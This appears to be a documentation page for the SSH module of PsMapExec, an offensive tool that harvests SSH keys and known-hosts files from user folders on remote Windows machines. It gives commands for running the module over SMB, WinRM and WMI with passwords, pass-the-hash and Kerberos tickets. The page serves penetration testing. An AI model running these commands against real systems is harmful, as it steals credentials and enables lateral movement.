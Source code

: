 # SSH

Connects to the remote system and looks for SSH keys and known hosts within each user folder within .ssh Collected information is automatically parsed and organized where it will be stored in $PWD\PME\SSH\

# Usage

### SMB execution with password authentication, targeting workstations

    PsMapExec SMB -Targets "Workstations" -Username [User] -Password [Pass] -Module SSH

### WinRM execution with hash authentication, targeting servers

    PsMapExec WinRM -Targets "Servers" -Username [User] -Hash [RC4/AES256/NTLM] -Module SSH

### WMI execution with Kerberos ticket authentication (Username not required)

    PsMapExec WMI -Targets "All" -Ticket [doI..] -Module SSH

# Optional Parameters

### 1) Will ommit parsing output from each system.

    -NoParse

### 2) Displays each targets output to the console

    -ShowOutput

### 3) Display only successful results

    -SuccessOnly

# Supported Methods

1) SMB

2) SessionHunter

3) WMI

4) WinRM
